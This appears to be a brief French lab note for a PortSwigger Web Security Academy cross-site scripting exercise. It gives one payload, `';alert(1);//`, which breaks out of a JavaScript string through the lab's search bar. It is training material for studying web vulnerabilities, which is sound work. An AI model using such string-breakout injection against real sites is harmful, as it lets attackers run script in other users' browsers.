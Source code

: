 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

## Payload

Dans la barre de recherche : `';alert(1);//`